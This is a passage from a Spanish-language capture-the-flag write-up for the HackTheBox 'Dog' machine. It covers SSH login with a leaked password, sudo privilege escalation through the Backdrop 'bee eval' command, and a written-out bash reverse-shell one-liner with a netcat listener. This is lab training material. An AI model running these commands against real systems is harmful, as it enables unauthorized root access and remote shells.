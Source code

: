 <br>

Entre los usuarios listados se identificaron `jobert` y `johncusack`. Se probó acceso por SSH con la contraseña previamente extraída (`BackDropJ2024DS2024`), confirmando autenticación exitosa como el usuario `johncusack`. Se consigue la flag de usuario.

## Post-Explotación
**bee** es una herramienta que se utiliza principalmente en entornos de CMS como Backdrop para ejecutar código PHP arbitrario de manera remota. En el caso de la explotación de vulnerabilidades, si un atacante obtiene acceso a un CMS y tiene permisos adecuados, puede usar bee para ejecutar comandos en el sistema.

### Escalada de Privilegios
Se consulta la posibilidad de escalar privilegios mediante el comando `sudo -l`, el cual muestra los comandos que el usuario **johncusack** puede ejecutar con privilegios elevados:
<p align="center">
  <img src="https://github.com/ElChe1/Exploitation-Lab/blob/main/HackTheBox/Easy/Dog/media/img/sudo.png" alt="sudo" style="border-radius: 10px;">
</p>

<br>

Una de las funcionalidades de <a href='https://backdropcms.org/project/bee'>**bee**</a> es la opción `eval`, que permite ejecutar código PHP arbitrario dentro del entorno de Backdrop. Se decide aprovechar esta funcionalidad para ejecutar comandos en el sistema desde la carpeta donde está instalado el CMS, en este caso, `/var/www/html`.
```bash
sudo /usr/local/bin/bee --root=/var/www/html eval "system('id');"
```
<p align="center">
  <img src="https://github.com/ElChe1/Exploitation-Lab/blob/main/HackTheBox/Easy/Dog/media/img/id.png" alt="id" style="border-radius: 10px;">
</p>

<br>


Esto confirma que el comando se ejecuta con privilegios de `root`. Al verificar que ahora estamos ejecutando como `root`, podemos proceder a obtener acceso total al sistema. Para obtener una shell interactiva como `root`, se ejecuta el siguiente comando usando la misma herramienta bee eval:
```bash
nc -lvnp 4444

sudo /usr/local/bin/bee --root=/var/www/html eval "system('bash -c \"bash -i >& /dev/tcp/10.10.16.18/4444 0>&1\"');"
```
<p align="center">
  <img src="https://github.com/ElChe1/Exploitation-Lab/blob/main/HackTheBox/Easy/Dog/media/img/shell.png" alt="shell" style="border-radius: 10px;">
</p>

<br>

Esto da acceso a una shell de **root** dentro del sistema. A partir de este momento, tenemos control total sobre la máquina, ya que el acceso con privilegios de root permite realizar cualquier acción en el sistema, como la obtención de la root flag.
<p align="center">
  <img src="https://github.com/ElChe1/Exploitation-Lab/blob/main/HackTheBox/Easy/Dog/media/img/flag.png" alt="flag" style="border-radius: 10px;">
</p>
